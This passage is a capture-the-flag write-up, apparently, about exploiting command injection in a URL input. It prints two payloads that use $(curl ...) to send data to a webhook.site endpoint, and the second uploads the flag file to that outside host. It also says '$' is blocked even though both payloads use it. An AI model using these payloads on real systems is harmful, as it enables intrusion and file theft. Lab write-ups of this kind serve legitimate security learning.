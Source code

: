 For me to exfiltrate any data from a web like this I need to use a [webhook](https://webhook.site/). So, after hours of trying I finally got a working webhook payload to send data and see if it could work.

The command:

```bash
http://127.0.0.1/x$(curl --data "testtesttesttest" https://webhook.site/5af80e59-cbce-4dca-bca4-747e8397f71b)
```

![Webhook](img/webhook.png)

Fortunately, it works. 

Since we can’t spawn a web shell here because `$` and `;` is blocked, only `curl` commands are available to me.

![Curl Documentation](img/curldocumentation.png)

I can’t directly `cat` the flag, so the only option I have is to download the file and see it locally.

I tested with using `-O` to try download the file but I doesn’t work.

The only command usable command to download the flag is `-F`

So, this is the final payload:

```bash
http://127.0.0.1/x$(curl -F file=@hopes_and_dreams https://webhook.site/5af80e59-cbce-4dca-bca4-747e8397f71b)
```
